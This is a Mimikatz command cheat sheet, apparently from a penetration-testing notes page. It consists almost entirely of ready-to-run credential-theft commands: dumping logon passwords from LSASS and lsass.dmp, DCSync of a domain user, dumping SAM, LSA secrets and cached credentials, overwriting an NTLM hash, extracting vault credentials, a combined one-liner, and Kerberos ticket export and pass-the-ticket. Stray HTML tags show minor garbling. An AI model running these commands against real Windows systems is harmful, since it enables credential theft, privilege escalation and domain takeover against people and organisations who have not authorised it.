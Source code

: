 # Mimikatz

#### General

```powershell
privilege::debug
log
log customlogfilename.log
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

#### DCSync

```powershell
mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit
```

#### Credentials

```powershell
>sekurlsa::logonpasswords
</strong>sekurlsa::logonPasswords full
sekurlsa::minidump lsass.dmp

# lsadump
lsadump::lsa /inject
lsadump::sam
lsadump::secrets
lsadump::cache

# Set NTLM hash
lsadump::setntlm /user:targetUser /ntlm:newNtlmHash

# Vault
token::elevate
vault::cred
vault::cred /patch
vault::list

# oneliner
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
</code></pre>
```

#### Kerberos

```
kerberos::list /export
kerberos::ptt c:\ticket.kirbi
```
